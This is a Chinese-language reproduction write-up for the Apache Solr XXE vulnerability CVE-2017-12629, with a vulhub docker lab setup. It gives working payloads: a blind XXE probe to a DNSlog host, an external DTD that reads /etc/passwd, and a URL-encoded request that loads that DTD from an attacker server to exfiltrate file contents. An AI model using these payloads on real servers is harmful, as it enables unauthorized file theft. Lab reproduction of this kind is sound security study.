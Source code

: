 ```yaml
---
title: Apache Solr XXE 漏洞 CVE-2017-12629
---
```


# Apache Solr XXE 漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

## 影响版本

<a-checkbox checked>Apache Solr < 7.1</a-checkbox></br>
<a-checkbox checked>Apache Lucene < 7.1</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629-XXE
docker-compose build
docker-compose up -d
```

## 漏洞复现
先请求url地址获取 core 内容

```
/solr/admin/cores
```

![image-20220307150410724](../../../.vuepress/public/img/image-20220307150410724.png)

发送请求

```
/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

查看dnslog得到请求

![b7254e29-c3a3-4654-b960-10f1a3589021](../../../.vuepress/public/img/b7254e29-c3a3-4654-b960-10f1a3589021.png)

在自己的服务器上写入一个可访问的XML文件，内容写入

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件

```
/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fxxx.xxx.xxx.xxx%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser
```

![277c42b0-7152-457b-b4f2-faee9dc4849f](../../../.vuepress/public/img/277c42b0-7152-457b-b4f2-faee9dc4849f.png)

注意这里的payload进行了url编码,请求的文件为 `http://xxx.xxx.xxx.xxx/1.dtd`，有更多需求自行更改写入的xml文件

